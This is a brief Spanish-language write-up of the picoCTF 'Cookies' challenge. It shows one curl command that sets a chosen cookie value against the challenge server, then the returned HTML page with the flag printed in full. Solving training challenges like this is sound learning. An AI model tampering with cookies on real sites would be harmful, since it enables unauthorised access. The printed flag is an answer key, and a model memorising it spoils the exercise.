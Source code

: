 Descripción
	Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:21485/](http://mercury.picoctf.net:21485/)
	
Solución

	┌──(gibran㉿vbox)-[~]
	└─$ curl http://mercury.picoctf.net:21485/check -H "Cookie: name=18"
	<!DOCTYPE html>
	<html lang="en">
	
	<head>
	    <title>Cookies</title>
	
	
	    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">
	
	    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">
	
	    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
	
	    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
	
	</head>
	
	<body>
	
	    <div class="container">
	        <div class="header">
	            <nav>
	                <ul class="nav nav-pills pull-right">
	                    <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a>
	                    </li>
	                </ul>
	            </nav>
	            <h3 class="text-muted">Cookies</h3>
	        </div>
	
	        <div class="jumbotron">
	            <p class="lead"></p>
	            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}</code></p>
	        </div>
	
	
	        <footer class="footer">
	            <p>&copy; PicoCTF</p>
	        </footer>
	
	    </div>
	</body>
	
	</html>   
	
Notas adicionales
	
	
Referencias
	
	